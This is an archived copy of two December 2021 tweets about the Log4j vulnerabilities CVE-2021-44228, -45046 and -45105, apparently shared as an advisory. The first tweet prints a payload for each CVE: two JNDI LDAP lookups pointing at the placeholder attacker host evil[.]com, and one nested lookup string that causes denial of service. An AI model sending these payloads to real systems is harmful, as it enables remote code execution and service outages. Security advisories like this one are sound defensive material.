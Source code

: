 
# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1472254703501258756 _at 2021-12-18, 17:17:29_**
<blockquote>
📢 #Log4j Vulns ~

1) CVE-2021-44228 (RCE) - Critical
Payload: ${jndi:ldap://evil[.]com:1389/a}

2) CVE-2021-45046 (RCE) - Critical
Payload: ${jndi:ldap://127.0.0.1#evil[.]com:1389/a}

3) CVE-2021-45105 (DoS) - High
Payload: ${${::-${::-$${::-j}}}}

🛡️ https://t.co/5tGvl1URht https://t.co/FOyB1HcstQ
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td><img src="pictures/fb17885cc878fafa7386f30b4eadad04ecf372d7a810e96d1a0bfbb8a6c71c2c.jpg" alt="fb17885cc878fafa7386f30b4eadad04ecf372d7a810e96d1a0bfbb8a6c71c2c.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>430</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1472230763655532552 _at 2021-12-18, 15:42:21_**
<blockquote>
Well, log4j 2.17 was released to fix CVE-2021-45105, which is just like CVE-2021-45046 but only a DoS impact.
https://t.co/eEk5mPHPp1
Before anybody freaks out too much, I've still yet to be told a single real-world Java application that's vulnerable to either CVE.
</blockquote>
